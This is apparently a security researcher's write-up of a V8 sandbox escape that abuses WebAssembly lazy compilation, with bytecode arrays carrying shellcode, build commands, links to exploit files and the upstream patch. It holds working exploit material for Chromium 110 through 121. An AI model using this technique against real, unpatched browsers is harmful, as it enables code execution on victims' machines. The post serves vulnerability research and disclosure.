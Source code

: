 # Escaping V8 Sandbox via WebAssembly JIT Spraying: Part 2 (110.0.5481.77 <= Chromium < 122.0.6261.57)

After the [patch](https://chromium.googlesource.com/v8/v8/+/2eb73988a37a60520a0f8e0b1109edbcc0b91415) for the exploitation technique explained in [part 1](https://aaronsjcho.github.io/Escaping-V8-Sandbox-via-WebAssembly-JIT-Spraying-Part-1/), we cannot directly overwrite call target and control `rip`. However, a new technique was introduced because of newly implemented lazy compilation for Wasm function. I will explain about this in this post.

## Setup

- Ubuntu 22.04.5 LTS (WSL)
- [8cf17a14a78cc1276eb42e1b4bb699f705675530](https://chromium.googlesource.com/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530) (Jan 4th, 2024)

Run [`setup.zsh`](./setup.zsh) in your working directory.
## Analysis

### WebAssembly lazy compilation

```js
/*
(module
    (func (export "f1"))
    (func (export "f2"))
    (func (export "f3"))
    (func (export "f4"))
)
*/
let wasm_src = new Uint8Array([0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x5, 0x4, 0x0, 0x0, 0x0, 0x0, 0x7, 0x15, 0x4, 0x2, 0x66, 0x31, 0x0, 0x0, 0x2, 0x66, 0x32, 0x0, 0x1, 0x2, 0x66, 0x33, 0x0, 0x2, 0x2, 0x66, 0x34, 0x0, 0x3, 0xa, 0xd, 0x4, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb, 0x2, 0x0, 0xb]);
let wasm_module = new WebAssembly.Module(wasm_src);
```

When a Wasm module is constructed, a memory region whose permission is set to RWX is allocated for compiling and executing Wasm functions.

![](img/1.png)

There is jump table at the very front of this region, which is responsible for deciding execution flow when Wasm function is called.

![](img/2.png)

When a function is called for the first time, it jumps to `Builtins_WasmCompileLazy()` and compile the function lazily in run-time.

![](img/3.png)

From the second call, it directly jumps to compiled code.

`Builtins_WasmCompileLazy()` is generate by [`Builtins::Generate_WasmCompileLazy()`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3118). It adds code which [set `r15` to `jump_table_start` in `WasmInstanceObject`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3145) and [jumps to `r15`](https://source.chromium.org/chromium/v8/v8/+/8cf17a14a78cc1276eb42e1b4bb699f705675530:src/builtins/x64/builtins-x64.cc;l=3151). As a result, generated code of `Builtins_WasmCompileLazy()` looks like following:

![](img/4.png)

## Exploitation

### Hijack execution flow

With lazy compilation enabled, we can overwrite `jump_table_start` with the address which we want to jump to, before Wasm function is compiled. Then, `Builtins_WasmCompileLazy()` will jump to the address after compilation is over, which means that we can control `rip`.

[`shellcode.py`](./shellcode.py)

[`pwn.wat`](./pwn.wat)

[`wasm.py`](./wasm.py)

```zsh
~/wabt/bin/wat2wasm pwn.wat # output: pwn.wasm
python3 wasm.py # output: [0x0, 0x61, 0x73, 0x6d, 0x1, 0x0, 0x0, 0x0, 0x1, 0x4, 0x1, 0x60, 0x0, 0x0, 0x3, 0x2, 0x1, 0x0, 0x7, 0x8, 0x1, 0x4, 0x6d, 0x61, 0x69, 0x6e, 0x0, 0x0, 0xa, 0xb1, 0x1, 0x1, 0xae, 0x1, 0x0, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xb2, 0x9b, 0x86, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0xdf, 0xe0, 0x9b, 0x96, 0x8c, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x82, 0x83, 0x87, 0x82, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0x8a, 0xbc, 0x91, 0x96, 0xcd, 0xdb, 0xf5, 0x2, 0x42, 0xd0, 0x90, 0xa5, 0xbc, 0x8e, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xc8, 0xe2, 0xd8, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0x90, 0x91, 0xc5, 0x81, 0x8c, 0x92, 0xe4, 0xf5, 0x2, 0x42, 0xe6, 0xf0, 0xea, 0x81, 0x83, 0x8a, 0xe4, 0xf5, 0x2, 0x42, 0xb8, 0x99, 0x85, 0xca, 0xd5, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x90, 0x91, 0x85, 0x86, 0x8e, 0x84, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x8a, 0x90, 0xca, 0xb4, 0x8a, 0xd4, 0xf5, 0x6, 0x42, 0xd0, 0x90, 0xa5, 0x84, 0x8e, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0xec, 0x9e, 0x85, 0x8a, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0x92, 0x8a, 0x87, 0x89, 0x92, 0xe4, 0xf5, 0x6, 0x42, 0xc8, 0xe2, 0x80, 0x86, 0xbb, 0x87, 0xe4, 0xf5, 0x6, 0x42, 0x8f, 0x8a, 0xc0, 0x84, 0x89, 0x92, 0xa4, 0xc8, 0x90, 0x7f, 0xf, 0xb]
```

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/5.png)

## Bisection

> [[wasm] Enable lazy compilation by default](https://chromium.googlesource.com/v8/v8/+/29131d5e3ea9cbfeae3e6dc3fd6c4439f0ac4bde) (Nov 14th, 2022)

The new exploitation technique explained in this post was introduced in the commit above, which enabled lazy compilation for Wasm function by default.

## Patch

> [[wasm] Introduce WasmTrustedInstanceData](https://chromium.googlesource.com/v8/v8/+/59acab802a319da23c1c005e062fbc2bab4d348b) (Jan 4th, 2024)
> 
> This CL moves most data from the WasmInstanceObject to a new WasmTrustedInstanceData. As the name suggests, this new object is allocated in the trusted space and can hence hold otherwise-unsafe data (like direct pointers). As the Wasm instance was still storing some unsafe pointers, this CL closes holes in the V8 sandbox, and allows us to land follow-up refactorings to remove more indirections for sandboxing (potentially after moving more data structures to the trusted space).
